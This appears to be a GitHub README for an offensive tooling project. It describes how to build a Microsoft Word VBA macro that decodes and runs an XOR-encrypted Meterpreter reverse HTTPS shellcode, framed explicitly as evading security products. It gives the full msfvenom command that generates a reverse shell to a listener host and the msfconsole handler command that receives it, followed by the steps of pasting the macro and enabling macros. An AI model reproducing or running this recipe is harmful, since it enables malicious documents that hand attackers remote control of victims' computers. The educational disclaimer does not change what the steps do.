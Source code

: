 # VBA Payload Encryption and Execution

## Overview
This project demonstrates how to encrypt a shellcode (revshell) payload for execution within a Microsoft Word VBA macro. The encryption process enhances evasion techniques to bypass security solutions by encoding the payload before execution.

## Steps
### 1. Generate the Shellcode
Use `msfvenom` to generate a reverse HTTPS payload in C# format:
```sh
msfvenom -p windows/x64/meterpreter/reverse_https SessionExpirationTimeout=0 SessionCommunicationTimeout=0 LHOST=192.168.1.142 LPORT=443 EXITFUNC=thread -f csharp
```

### 2. Encrypt the Payload
Use the provided C# encryption script (`XOR_encoder`) to XOR the shellcode with a static key (`0xFA`).

### 3. Embed the Encrypted Payload in VBA Macro
- Open Microsoft Word and access the VBA Editor (`ALT + F11`)
- Insert a new module and paste the `VBA_Macro_Shellcode_Execution` file content

### 4. Setup Metasploit Listener
Start Metasploit and configure the multi-handler:
```sh
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.1.142; set LPORT 443; set SessionExpirationTimeout 0; set SessionCommunicationTimeout 0; exploit"
```

### 5. Execute the VBA Macro
- Open the Word document containing the macro
- Enable macros when prompted
- The encrypted payload is decoded and executed in memory

![Captura de pantalla 2025-03-10 a la(s) 15 33 29](https://github.com/user-attachments/assets/7d719c6c-9e80-4f9e-8669-437b5c495510)


### 6. Compatibility Note
If Microsoft Word is running in 32-bit, the payload and handler must be adjusted for x86 compatibility by replacing windows/x64/meterpreter/reverse_https with windows/meterpreter/reverse_https in both the shellcode generation with msfvenom and the listener configuration in Metasploit.

## Disclaimer
This project is intended for educational and authorized penetration testing purposes only. Unauthorized use is strictly prohibited.

